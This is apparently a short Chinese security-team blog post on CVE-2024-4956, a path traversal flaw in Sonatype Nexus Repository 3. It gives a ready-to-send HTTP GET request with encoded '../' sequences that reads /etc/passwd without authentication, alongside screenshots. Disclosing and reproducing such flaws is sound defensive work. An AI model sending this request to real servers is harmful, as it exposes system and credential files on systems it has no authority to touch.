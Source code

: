 #  Nexus Reposity3目录穿越漏洞CVE-2024-4956   
原创 R0seK1ller  蟹堡安全团队   2024-08-02 22:41  
  
## 1. 漏洞描述  
  
	  
    Sonatype Nexus Repository 3（Sonatype Nexus 3）是一个由Sonatype开发的仓库管理工具，用于管理和托管各种软件构件（如Maven构件、Docker镜像等）。它提供了一种集中化的方式来存储、管理和分发软件构件，以帮助团队协作和构建自动化。Sonatype Nexus Repository 3 存在路径遍历漏洞(CVE-2024-4956)，未经身份认证的远程攻击者通过构造特殊的请求可以下载读取远程目标系统上的任意文件，对机密性造成很高的影响。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zUcr0ib9h7OSEfxqyFzVgPt5Z3fatMoGW3VlkGoqx3n2iaxyYuANhhrdf2HZ7fwQytiaLhHT8xOa4sxA/640?wx_fmt=png&from=appmsg "")  
## 2. 漏洞复现  
```
GET /.%2f/..%2f/..%2f/..%2f/..%2f/etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Connection: close
```  
```
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zUcr0ib9h7OSEfxqyFzVgPt5H2dkEZqcGOEEg3F2zJMicDob9H8LNvbsjQgxk6Kc4LkBmH6OSiaLZxBw/640?wx_fmt=png&from=appmsg "")  
```
```  
  
  
  
